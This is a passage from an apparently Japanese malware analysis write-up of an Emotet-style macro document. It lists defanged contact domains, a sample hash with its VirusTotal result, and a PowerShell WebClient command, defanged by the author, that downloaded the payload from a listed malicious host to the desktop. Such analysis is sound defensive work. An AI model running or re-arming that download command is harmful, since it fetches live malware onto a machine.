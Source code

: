 また、マクロについてはworkbookを開いたら自動実行されるようです。  
とはいえ、正直マクロがデフォルト無効になった今としては、どこまで実行されるのか、て感じですね。  

正直、全部parseするのはしんどい（意味もないかと思います）ので、通信先と思われる情報だけ以下に書きます。

- audioselec[.]com
- isc[.]net[.]ua
- intolove[.]co[.]uk

試しにダウンロードしてみたところ、これができました。珍しいですね、結構生きてる時間短いことが多いのに。以下のコマンドでやってみました。  

- ダウンロードコマンド

```ps
(new-object system.net.webclient).downloadfile("hxxp://intolove[.]co[.]uk/wp-admin/FbGhiWtrEzrQ/", "$env:userprofile\desktop\malware.bin")
```
Note: デファングしてます

ダウンロード後のハッシュは以下となっています。これもvirustotalで検知されてますね。  

- hash: f91ff6f6cd234bf1d80580d95734416c31ac6f7a9454eb224980de1cddeb0b84

```ps
PS C:\Users\Administrator\Desktop> certutil.exe -hashfile .\malware.bin sha256
SHA256 hash of .\malware.bin:
f91ff6f6cd234bf1d80580d95734416c31ac6f7a9454eb224980de1cddeb0b84
```

![virustotal03](https://raw.githubusercontent.com/proshiba/analysis/main/emotet/emotet_221103/images/virustotal03.png)
